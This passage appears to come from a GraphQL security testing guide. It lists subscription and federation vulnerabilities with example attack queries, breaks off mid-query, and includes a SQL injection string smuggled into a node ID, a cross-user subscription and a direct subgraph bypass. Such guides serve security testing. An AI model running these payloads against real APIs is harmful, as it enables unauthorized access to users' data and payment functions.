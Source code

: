    In the wild, directive vulnerabilities have been found in:
   - Custom GraphQL servers that implement dynamic expression evaluation
   - APIs that use directives for formatting/transformation but fail to sanitize inputs
   - Implementations where directive execution happens before field-level authorization
   - Federation setups where directives are implemented inconsistently across services

4. **Subscription vulnerabilities**:
   - Test for unbounded subscriptions
   - Check for missing authentication on subscription operations
   - Try to subscribe to other users' events
   
   Example:
   ```graphql
   subscription {
     userUpdates(userId: "victim_id") {
       email
       activity
     }
   }
   ```

5. **Federation vulnerabilities**:
   - Test for inconsistent authorization between federated services
   - Check for information leakage in subgraph responses
   - Exploit entity resolution misconfigurations
   
   Real-world examples:
   ```graphql
   # 1. Exploiting inconsistent auth in a microservices architecture
   # A real case where User service required JWT but Products service only checked
   # if any JWT was present without validating user permissions
   query ProductLeakage {
     product(id: "classified-product-1337") {
       name
       price
       internalManufacturingCost  # Should be admin-only field
     }
   }
   
   # 2. Entity resolution bypass found in production
   # Gateway expected ID to be a UUID but subgraph accepted string format too
   query EntityResolutionBypass {
     node(id: "user-1 UNION SELECT * FROM admin_users--") {
       ... on User {
         username
         email
       }
     }
   }
   
   # 3. Documented gateway bypass in a financial company
   # Sending to https://payments.internal-api.company.com:8443/graphql
   # instead of https://api.company.com/graphql bypassed IP restrictions
   query DirectSubgraphAccess {
     processCreditCard(input: {
       cardNumber: "4111111111111111",
       cvv: "123"
     }) {
       success
     }
   }
   
   # 4. Observed type extension confusion vulnerability
   query TypeExtensionConfusion {
     product(id: "1") {
       name
   ```
